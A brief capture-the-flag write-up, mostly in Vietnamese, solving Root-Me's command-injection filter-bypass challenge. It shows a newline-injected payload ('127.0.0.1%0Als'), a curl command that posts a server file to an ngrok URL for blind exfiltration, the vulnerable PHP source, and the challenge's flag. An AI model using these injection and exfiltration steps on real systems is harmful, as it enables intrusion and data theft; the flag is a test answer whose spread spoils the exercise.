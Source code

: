 # [Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

## Solution

Test:

- 127.0.0.1: ok
- 127.0.0.1;ls: error
- 127.0.0.1%0Als: ok

Tuy nhiên web chỉ hiển thị phản hồi là ok, không có kết quả câu lệnh ping hay là ls. => Cần thực thi câu lệnh để gửi kết quả đến một nơi khác.

- Sử dụng ngrok để tạo nơi đợi phản hồi: `https://d578-58-187-92-48.ap.ngrok.io/`
- Sử dụng curl command để gửi dữ liệu: curl -X POST -d @index.php `https://d578-58-187-92-48.ap.ngrok.io/`

=> Lấy được nội dung file `index.php`:

```html
<html><head><title>Ping Service</title></head><body><form method="POST" action="index.php">        <input type="text" name="ip" placeholder="127.0.0.1">        <input type="submit"></form><pre><?php $flag = "".file_get_contents(".passwd")."";if(isset($_POST["ip"]) && !empty($_POST["ip"])){        $ip = @preg_replace("/[\\\$|`;&<>]/", "", $_POST["ip"]); //$ip = @str_replace(['\\', '$', '|', '`', ';', '&', '<', '>'], "", $_POST["ip"]);        $response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$ip."'");        $receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);        if ($out[1]=="3")         {                echo "Ping OK";        }        elseif ($out[1]=="0")        {                echo "Ping NOK";        }        else        {                echo "Syntax Error";        }}?></pre></body></html>
```

Thấy flag ở file .passwd, tương tự như trên, lấy được nội dung file .passwd: `Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!`
